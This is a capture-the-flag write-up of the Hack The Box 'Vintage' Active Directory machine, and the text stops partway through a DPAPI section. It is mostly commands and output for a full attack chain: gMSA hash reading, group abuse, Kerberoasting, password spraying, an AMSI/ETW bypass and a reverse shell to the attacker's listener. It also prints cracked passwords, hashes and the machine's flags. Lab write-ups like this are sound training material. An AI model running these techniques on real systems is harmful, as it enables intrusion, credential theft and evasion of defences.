


<p align="center">
  
</p>

---

<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>Hack The Box - Vintage</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>31.08.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Hard</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Active Directory</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Windows</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Kerberoasting](#kerberoasting)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [RBCD](#rbcd)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th>Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 – Reconnaissance</b></td>
      <td align="left"><b>T1595 – Active Scanning</b></td>
      <td>Reconnaissance and information gathering on the target system</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1069 - Permission Groups Discovery</b></td>
      <td>Detecting membership in a privileged group</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1552 - Unsecured Credentials</b></td>
      <td>Read gMSA Password from msDS-ManagedPassword</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 – Privilege Escalation</b></td>
      <td align="left"><b>T1098 – Account Manipulation</b></td>
      <td>Adding gMSA01$ to ServiceManagers group via AddSelf rights</td>
    </tr>
    <tr>
      <td align="left"><b>TA0003 - Persistence</b></td>
      <td align="left"><b>T1098 - Account Manipulation</b></td>
      <td>modify service account svc_sql</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1558 – Steal or Forge Kerberos Tickets</b></td>
      <td>Kerberos hash of account ticket received</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1078 - Valid Accounts</b></td>
      <td>Initial access to the system was obtained using valid credentials</td>
    </tr>
    <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1555 - Credentials from Password Stores</b></td>
      <td>Credentials were extracted from cmdkey</td>
    </tr>
    <tr>
      <td align="left"><b>TA0008 - Lateral Movement</b></td>
      <td align="left"><b>T1550 - Use Alternate Authentication Material</b></td>
      <td>Using svc_sql account and DelegatedAdmins rights to attack RBCD and impersonate an administrator</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>User Flag</th>
    <td><code>flag{84423b2ea0027a0279aaf355af95d094}</code></td>
  </tr>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{b7f150982cbbf0239b6c07d1209594f1}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> At the very beginning we are provided with a low-privileged account - `P.Rosa:Rosaisbest123`

---

## 🕵️  Reconnaissance

> Let's start by scanning the target system for open ports and running services via `nmap` in two steps:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 10.10.11.45 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -vv -A -n 10.10.11.45 -oN full_scan_results

```

```bash

53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-09-01 17:53:25Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
57643/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57661/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
59017/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

```

> The scan result showed a large number of open ports and services. I will highlight the most interesting ones for us:

- `53 (dns)` - Own dns works;
- `88 (kerberos)` - AD authentication protocol;
- `135 (msrpc)` - msrpc Endpoint Mapper;
- `139/445 (smb)` - NetBIOS Session Service, NetLogon / File Share Access Service;
- `389/636 (ldap/ldaps)` - AD directory protocol;
- `464 (kpasswd)` - Kerberos Password Change Service;
- `3268/3269 (global ldap)` - Extended ldap; for global catalog access from client to controller;
- `5985 (winrm)` - For remote connection to the system;

> The presence of services such as `ldap`, `kerberos` and `dns` tells us that the target system is a `Domain Controller`.

> We make a request to `rootDSE`:

> [!IMPORTANT]
`rootDSE (Root Directory Service Entry)` — This is a special object in `LDAP` that contains meta information about a Domain Controller.

```bash

ldapsearch -x -H ldap://10.10.11.45 -s base | grep -i dns

```
<p align="center">
 
</p>

> We write the name of the controller `dc01.vintage.htb` and the domain itself to the file `/etc/hosts`:

```bash

echo '10.10.11.45 vintage.htb dc01.vintage.htb' | sudo tee -a /etc/hosts

10.10.11.45 vintage.htb dc01.vintage.htb

```

> Using the provided account authenticate to the `SMB` service via `NTLM` (default):

```bash

nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'

SMB         10.10.11.45     445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.45     445    dc01             [-] vintage.htb\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED

```

> `STATUS NOT SUPPORTED`. Authentication method `NTLM` is disabled (`NTLM:False`)

> Authenticate using the `kerberos` protocol:

```bash

nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -k

SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123

```

> Authentication was successful. We will work with `Kerberos` tickets (`TGT`) so for convenience I create a `krb5.conf` config:

```bash

[libdefaults]
default_realm = VINTAGE.HTB
dns_lookup_realm = false
dns_lookup_kdc = false
dns_canonicalize_hostname = false
rdns = false
[realms]
VINTAGE.HTB = {
kdc = dc01.vintage.htb
admin_server = dc01.vintage.htb
}
[domain_realm]
.vintage.htb = VINTAGE.HTB
vintage.htb = VINTAGE.HTB

```
```bash

export KRB5_CONFIG=/home/sonyahack1/vintage/krb5.conf

```

> Requesting `Kerberos` ticket using credentials - `P.Rosa:Rosaisbest123`:

```bash

echo 'Rosaisbest123' | kinit P.Rosa

```
```bash

klist

Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: P.Rosa@VINTAGE.HTB

Valid starting       Expires              Service principal
09/01/2025 14:32:15  09/02/2025 00:32:15  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 09/02/2025 14:32:15

```
```bash

export KRB5CCNAME=/tmp/krb5cc_1000

```
> Checking:

```bash

nxc smb dc01.vintage.htb --use-kcache

SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] VINTAGE.HTB\P.Rosa from ccache

```

> We display a list of groups in the domain via `ldap`:

```bash

nxc ldap dc01.vintage.htb --use-kcache --groups

```
<p align="center">
 
</p>

> I see an interesting group `Pre-Windows 2000 Compatible Access` in which there are two users.

> [!IMPORTANT]
`Pre-Windows 2000 Compatible Access` is a special built-in security group in Active Directory. Its main purpose is to provide compatibility with legacy clients and applications
that require special rights to read information in Active Directory. This compatibility is needed with `Windows NT/2000`, which did not yet use the strict `ACL` model of access
to objects in AD.

> Let's find out who is a member of this group:

```bash

ldapsearch -H ldap://dc01.vintage.htb -Y GSSAPI -N -b "DC=vintage,DC=htb" "(cn=Pre-Windows 2000 Compatible Access)" | grep -i member

```
```bash

member: CN=fs01,CN=Computers,DC=vintage,DC=htb
member: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=vintage,DC=htb

```

> The `Pre-Windows 2000 Compatible Access` group includes the `fs01` object, which is another host in the domain (since it is located in the `computers` container). This means that at some point
> when this **PC was added to the domain**, a setting was applied for compatibility with older systems that use the outdated `ACL`.

> I found an interesting fact about this group online:

<p align="center">
 
</p>

> To put it simply we have a login `fs01$` (as the name of the host itself) and most likely the same password `fs01` (only without `$`):

```bash

nxc smb dc01.vintage.htb -u 'fs01$' -p 'fs01' -k

SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\fs01:fs01

```

> Okay. We have a `second` valid account. We request a `Kerberos` ticket for it in the same way.

> let's collect information about all objects and rights in the domain and display it as a graph in `BloodHound` to find out what privileges and connections the host `FS01` has:

```bash

sudo python3 bloodhound.py -u 'fs01$' -k -d vintage.htb --nameserver 10.10.11.45 -c ALL --zip -op vintage.htb

```
<p align="center">
 
</p>

> `FS01` is a member of the `Domain Computers` group which has the `ReadGMSAPassword` privilege on the `GMSA01$` service account.

> [!IMPORTANT]
`gMSA (Group Managed Service Account)` is a special account in Active Directory designed to securely run services on behalf of the domain.
The password for this account is automatically created and updated by the domain controller, and is stored in the hidden attribute `msDS-ManagedPassword`. Regular users
will not be able to see or retrieve this password directly.

> [!IMPORTANT]
`ReadGMSAPassword` - This is a privilege that allows querying the `NTLM hash` of the `gMSA` account password in Active Directory.

> To extract the hash from the `msDS-ManagedPassword` attribute, I will use the `gmsa` module:

```bash

nxc ldap dc01.vintage.htb --use-kcache --gmsa

```
```bash

LDAP        dc01.vintage.htb 389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        dc01.vintage.htb 389    DC01             [+] VINTAGE.HTB\fs01$ from ccache
LDAP        dc01.vintage.htb 389    DC01             [*] Getting GMSA Passwords
LDAP        dc01.vintage.htb 389    DC01             Account: gMSA01$              NTLM: 6fa8a70cfb333b7f68e3f0d94b247f68     PrincipalsAllowedToReadPassword: Domain Computers

```
> We get `NTLM` hash from account `gMSA01`. Checking authentication:

```bash

nxc smb dc01.vintage.htb -u 'gmsa01$' -H '6fa8a70cfb333b7f68e3f0d94b247f68' -k

SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\gmsa01$:6fa8a70cfb333b7f68e3f0d94b247f68

```

> Great. We have a `third` valid account with hash authentication - `gmsa01$:6fa8a70cfb333b7f68e3f0d94b247f68`

> I continue the attack chain and look at what privileges `gmsa01` has:

<p align="center">
 
</p>

> I see `AddSelf` rights over the `ServiceManagers` group. This group in turn has full rights (`GenericAll`) over three service accounts.

> [!IMPORTANT]
`AddSelf` - this is a privilege that allows you to add yourself to another security group in AD.

> First, I request a `Kerberos` ticket for the `gmsa01$` account:

```bash

getTGT.py vintage.htb/gmsa01$ -hashes ':6fa8a70cfb333b7f68e3f0d94b247f68' -dc-ip 10.10.11.45

```
```bash

[*] Saving ticket in gmsa01$.ccache

```
```bash

export KRB5CCNAME=gmsa01\$.ccache

```
```bash

klist

Ticket cache: FILE:gmsa01$.ccache
Default principal: gmsa01$@VINTAGE.HTB

Valid starting       Expires              Service principal
09/01/2025 16:04:13  09/02/2025 02:04:13  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 09/02/2025 16:04:13

```
> Checking authentication:

```bash

nxc smb dc01.vintage.htb --use-kcache

SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] VINTAGE.HTB\gmsa01$ from ccache

```

> Next I add myself (`gmsa01`) to the `ServiceManagers` group:

```bash

bloodyAD -d vintage.htb -k --host "dc01.vintage.htb" add groupMember ServiceManagers 'GMSA01$'

[+] GMSA01$ added to ServiceManagers

```
> Let's check that we are in a group:

```bash

ldapsearch -H ldap://dc01.vintage.htb -Y GSSAPI -N -b "DC=vintage,DC=htb" "(cn=ServiceManagers)" | grep -i memb

member: CN=C.Neri,CN=Users,DC=vintage,DC=htb
member: CN=G.Viola,CN=Users,DC=vintage,DC=htb
member: CN=L.Bianchi,CN=Users,DC=vintage,DC=htb
member: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb

```
---

> [!IMPORTANT]
It is worth mentioning one very important detail from this point onwards, which affects the further process. The account `gMSA01` will be removed from the `ServiceManagers` group
from time to time, due to which subsequent attempts, tied to the membership of this account in the group, may be unsuccessful. I will not constantly focus on this point in this report,
but I advise you to periodically recheck whether all the conditions for the implementation of this or that attack (including membership in the necessary groups) match.

---

> Earlier `BloodHound` showed that the `ServiceManagers` group (of which we are a member) has the `GenericAll` privilege over three service accounts: `svc_ldap`, `svc_ark`, `svc_sql`.

> [!IMPORTANT]
`GenericAll` - this is full control over the object.

> For further implementation of the attack I will use `svc_sql`. In this case I can't name the correct reason for such a choice and was guided solely by primitive logic.
> Based on the name of this account, it can participate in the context of `SQL server`, which in turn is directly related to storing the credentials of other users (for example,
> passwords or hashes).

> I check the status of the account:

```bash

ldapsearch -H ldap://dc01.vintage.htb -Y GSSAPI -N -b "DC=vintage,DC=htb" "(&(objectClass=user)(sAMAccountName=svc_sql))" userAccountControl | grep userAccountControl

```
```bash

userAccountControl: 66050

```
> The account is disabled because the `userAccountControl` attribute has the value `66050`.

> [!IMPORTANT]
`66050` is the sum of several flags. In hex `66050` = `0x10232`. Among the set flags there is a flag `0x0002`, which corresponds to `ACCOUNTDISABLE`.

> I activate the account `svc_sql` by modifying the object via the `.ldif` file:

```bash

dn: CN=SVC_SQL,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512

```

> To activate an account, it is enough to exclude the `ACCOUNTDISABLE` flag by assigning the `userAccountControl` attribute the value `512`, since this corresponds to the `NORMAL_ACCOUNT` flag.

```bash

ldapmodify -Y GSSAPI -H ldap://dc01.vintage.htb -f enable_account.ldif -N

modifying entry "CN=SVC_SQL,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB"

```
> checking:

```bash

ldapsearch -H ldap://dc01.vintage.htb -Y GSSAPI -N -b "DC=vintage,DC=htb" "(&(objectClass=user)(sAMAccountName=svc_sql))" userAccountControl | grep userAccountControl

```
```bash

userAccountControl: 512

```

### Kerberoasting

> Next I need to add an entry to the `servicePrincipalName` attribute to implement the `kerberoasting` attack and thereby request a `kerberos` ticket.

> [!IMPORTANT]
`Kerberoasting` is an attack technique that allows `TGS` requests to be made to service accounts that have an `SPN` defined.

> To add `SPN` I will use the same technique of modifying the object via `.ldif`:

```bash

dn: CN=SVC_SQL,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB
changetype: modify
add: servicePrincipalName
servicePrincipalName: http/domain.local

```
```bash

ldapmodify -Y GSSAPI -H ldap://dc01.vintage.htb -f spn.ldif -N

modifying entry "CN=SVC_SQL,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB"

```
> We initiate a request to search for all accounts in the domain with the `SPN` set to obtain `TGS`:

```bash

nxc ldap dc01.vintage.htb --use-kcache --kerberoast hashes.txt

LDAP        dc01.vintage.htb 389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        dc01.vintage.htb 389    DC01             [+] VINTAGE.HTB\gmsa01 from ccache
LDAP        dc01.vintage.htb 389    DC01             [*] Skipping disabled account: krbtgt
LDAP        dc01.vintage.htb 389    DC01             [*] Total of records returned 1
LDAP        dc01.vintage.htb 389    DC01             [*] sAMAccountName: svc_sql, memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb, pwdLastSet: 2025-09-01 16:32:07.958397, lastLogon: <never>
LDAP        dc01.vintage.htb 389    DC01             $krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb\svc_sql*$a7bc506ebab65eb6c97890c9822fd969$dfd579a5c7df956b77d936f6236913d021ee8e50195ccecc73e334c17f1ad87d94cd11a817ead5f7511fff5c1244ab71f9947a1c1fef2e08922e89e8f7eaf999fbc3add246d73f8ae3ac11a07a13528c502307497933ab3a0139e5cd4a93290c2f6c9503095c5e6b9b8b8d48a7eeb653c783fcb5405451c9b14989626f507f81160f0f60c9e9e927edd2e33664503036d80ef991d631132e38b7582e9703904533e33115c8cf62556faaed2d3b01067fbca26f38782e982ff5fde49a4dcb71ff51d4863dccccd80e93c78baba899a662fcf916d6dbc21541261c6098095c82132425f77853276ca00eb1420a40c81aa7a9cd3f4bb3c2ebd4ffc9ee3147e017742fe7a2ac50a7a614fa509badad9d33a300fcd346561bdc9f777b8c567986a6d23247212364ffb5cdc3b02813f89ddff4ea0a81ff96784baec27cae55d989eccf7bdb12ed9c2f02b3c64e37f47efe5e44f3c4a7f0fba23cbb5025b6a711a5303506503f49b306ce141e2c5d596ddbcb34bb5c3d7613b1eba93cbd362fb1e449a07723e2c538d8d28830f31a838ef4dae58e8f07ea6997a0053154f17cdd0b6d9683298a129421e36b223c281e099a678eb504a4186dd8934da7344822ef4218a822f3c1b60920ca5105d5bc0692282b0ea9ed9db027ffdf1333f3d93bbd218751b3bc3296ced23c3051b1586bfee610b68b6b3e3f9328f9a22be3c31a9a39f9aec53649656cc417a3fd146b76774311cb2b77f3f16c8f6635b8b6333e47ca6226cea5d3beb5a52fa9ce2dea39b1366e34a46c1b015efdbde99219f5da2b85ec913293f7091df7df5cc4f2f5eaa1c21b148994dfbe47e1bbd6279e563a5a075060a50f545dfbdeb4260b1711705faaff586198277965226a091b71285fb5b4a355557c946fa7e7a0f609246082cc20bc2def0c698277a5b55e35582ea75c2f4439ae48a104f2121f81b0596d443f05faaabc1364a27d84ff888438ac5da81869422e0920bbfce29385ebf404c5e8377d97f02f496be7d71fab39d043993f9856b51071fa12ff76853f99570221de5c6ec75443f73f4a24388b7775dd2c6cb2188813d38b50ee4719ad1c5e4a0a6cecd3d059d0cf71e6c387adaaf22dc8d956b2d76304806de4f0b7da192490259084a0b7b075f0038243e8a4bb3150b13f13fab6560b2f3288d658016e3cadd05392a2ae012c2ae1bbc9c97e53f2016d2f7a026d1edc0c2b48c1f655895ceaa553ff6c6e218c95e0e91497abe319436a725197ec53456a3983fea7c5794528c2f5e78d8d5c4550096d3a3a31d3b7ca9b3a8ee62a88f302523e54617155d3db5117dd9a30c216a7f23c3f33f4382e9e4b8732503578485896f533523ec75fceaac7ebed526133b444b48726bc3db429979a91997c265231b2ec079aca36e79e922f43a24a2a1af92aa3686549d9dfc1d52c55daaafc01

```
> I get the ticket hash from `svc_sql`.

## 🔓 Initial Access

> bruteforce the resulting hash via `john`:

```bash

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

```
```bash

Zer0the0ne       (?)

```
> I get password  - `Zer0the0ne`.

> We download all domain users to a text file and perform the `password spraying` technique. We find out who has the same password:

```bash

nxc smb dc01.vintage.htb --use-kcache --rid-brute | grep -i sidtypeuser | cut -d '\' -f2  | cut -d ' ' -f1 > users.txt

```
```bash

nxc smb dc01.vintage.htb -u users.txt -p 'Zer0the0ne' -k --continue-on-success

```
<p align="center">
 
</p>

> We have the password for the user account `C.Neri`. To gain access to the system we need to find out if he is a member of the `Remote Management Users` group:

```bash

ldapsearch -H ldap://dc01.vintage.htb -Y GSSAPI -N -b "DC=vintage,DC=htb" "(cn=Remote Management Users)" | grep -i memb

description: Members of this group can access WMI resources over management pr
member: CN=C.Neri,CN=Users,DC=vintage,DC=htb
member: CN=L.Bianchi,CN=Users,DC=vintage,DC=htb

```
> Great. So that I can connect via `winrm` I request a `kerberos` ticket using the credentials - `C.Neri:Zer0the0ne`:

```bash

echo 'Zer0the0ne' | kinit 'c.neri'

```
```bash

klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: c.neri@VINTAGE.HTB

Valid starting       Expires              Service principal
09/02/2025 14:48:32  09/03/2025 00:48:32  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 09/03/2025 14:48:32

```
> I connect to the system using a ticket:

```bash

evil-winrm -i dc01.vintage.htb -r vintage.htb

```
```powershell

*Evil-WinRM* PS C:\Users\C.Neri\Documents> whoami
vintage\c.neri
*Evil-WinRM* PS C:\Users\C.Neri\Documents>

```

> I get the **first** flag in the directory - `C:\Users\C.Neri\Desktop`:

```powershell

*Evil-WinRM* PS C:\Users\C.Neri\Desktop> type user.txt
84423b2ea0027a0279aaf355af95d094
*Evil-WinRM* PS C:\Users\C.Neri\Desktop>

```

> User Flag - `84423b2ea0027a0279aaf355af95d094`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>84423b2ea0027a0279aaf355af95d094</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️    Vertical Privilege Escalation

> By default `Evil-WinRM` creates a session with the `Network Logon Type` logon type, which does not initialize a full user environment. This is a limited session without a profile
> and many features are not available to the user.

> [!IMPORTANT]
To switch to the interactive session type, I tried for a long time to throw myself a shell (`meterpreter`) via `metasploit` using the payload generation from `msfvenom`. But it did not work
at all. Antivirus software blocked any attempts to launch any similar script in the system, including `winpeas.ps1` (I mentioned this below).

> To get interactive access - `Logon Type 2` and fully load the user profile, I use the `Invoke-RunasCs.ps1` script, which allows you to launch a process on behalf of the same user but in `interactive` mode:

```bash

python3 -m http.server 1111
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
10.10.11.45 - - [03/Sep/2025 14:07:04] "GET /Invoke-RunasCs.ps1 HTTP/1.1" 200

```
```bash

*Evil-WinRM* PS C:\Users\C.Neri\Documents> curl 10.10.14.15:1111/Invoke-RunasCs.ps1 -o Invoke-RunasCs.ps1
*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls

    Directory: C:\Users\C.Neri\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/3/2025   8:07 PM          88284 Invoke-RunasCs.ps1

*Evil-WinRM* PS C:\Users\C.Neri\Documents>

```
> But there is a problem which I mentioned above. The system is running `antivirus software`:

```bash

*Evil-WinRM* PS C:\Users\C.Neri\Documents> ./Invoke-RunasCs.ps1

At C:\Users\C.Neri\Documents\Invoke-RunasCs.ps1:1 char:1
+ function Invoke-RunasCs
+ ~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\Users\C.Neri\Documents\Invoke-RunasCs.ps1:1 char:1
+ function Invoke-RunasCs
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

*Evil-WinRM* PS C:\Users\C.Neri\Documents>

```
> `This script contains malicious content and has been blocked by your antivirus software`. In order to bypass the protection I use `Bypass-4MSI`:

> [!IMPORTANT]
`Bypass-4MSI` is a built-in module in `Evil-WinRM` designed to bypass the protection of `Antimalware Scan Interface (AMSI)` and `ETW (Event Tracing for Windows)`

```bash

*Evil-WinRM* PS C:\Users\C.Neri\Documents> menu

[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

*Evil-WinRM* PS C:\Users\C.Neri\Documents> Bypass-4MSI

```
```bash

Info: Patching 4MSI, please be patient...

[+] Success!

Info: Patching ETW, please be patient ..

[+] Success!

```

> This module works in two steps: 1) patches the `AmsiScanBuffer` function in memory forcing it to always return `clean`.
> 2) and disables telemetry and logging mechanisms via `ETW`, making analysis more difficult.

> After executing the module extract the `Invoke-RunasCs` function from the `Invoke-RunasCs.ps1` script using `dot-sourcing`:

```bash

*Evil-WinRM* PS C:\Users\C.Neri\Documents> . ./Invoke-RunasCs.ps1

```
> [!IMPORTANT]
`dot-sourcing` is a technique that loads all functions and variables of a script into the current PowerShell session so that `Invoke-RunasCs` becomes available in the current session.

> We start a second terminal session and activate the `nc` listener:

```bash

*Evil-WinRM* PS C:\Users\C.Neri\Documents> Invoke-RunasCs -Username C.Neri -password Zer0the0ne -Domain vintage.htb -Command powershell.exe -Remote 10.10.14.15:4343 -ForceProfile

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-ff33d2$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 3408 created in background.

*Evil-WinRM* PS C:\Users\C.Neri\Documents>

```
```bash

nc -lvnp 4343

Listening on 0.0.0.0 4343
Connection received on 10.10.11.45 63872
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
vintage\c.neri

PS C:\Windows\system32>

```

> I get a session in the system with `Logon Type 2` (interactive).

### DPAPI

> I display information about saved accounts in `cmdkey`:

```bash

PS C:\Windows\system32> cmdkey /list
cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02eicexxucchzqre
    Local machine persistence

    Target: LegacyGeneric:target=admin_acc
    Type: Generic
    User: vintage\c.neri_adm

PS C:\Windows\system32>

```
> In the stored credentials I see the entry `User: vintage\c.neri_adm`.

> The encrypted structure containing the login and password of the account is stored in special `.cred` files along the path - `C:\Users\<Username>\AppData\Roaming\Microsoft\Credentials`.

```bash

PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> ls -h
ls -h

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

```

> The keys (`MasterKey`) that are encrypted and decrypted these `.cred` files are located in the directory - `C:\Users\<Username>\AppData\Roaming\Microsoft\Protect\< user SID>`.

---

> [!IMPORTANT]
In short how the whole process works. The user saves the login and password of the account via `cmdkey` and the system encrypts this password using the `DPAPI` mechanism using
the `MasterKey` linked to the current user.

> [!IMPORTANT]
`DPAPI` is a mechanism that encrypts data of a specific account, binding it to the `user` who saved it. This means that if user `user1` (for examples) saves a password for user
`user2` via `cmdkey` or `RDP` then this password will be encrypted on behalf of `user1` and saved in his profile `AppData\Roaming\Microsoft\Credentials`.

---

> In order to extract the password from the encrypted structure, I will use the `dpapi.py` script from the `impacket` library set to parse the `DPAPI` binary structure.

> First I need to transfer this structure to yourself. To do this, I will use the method of transferring information through `base64` encoding:

```bash

$file = "C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6"

```
```bash

[Convert]::ToBase64String([IO.File]::ReadAllBytes($file))

```
> The output is a long string in `base64` encoding:

<p align="center">
 
</p>

> In my system I perform the reverse process:

```bash

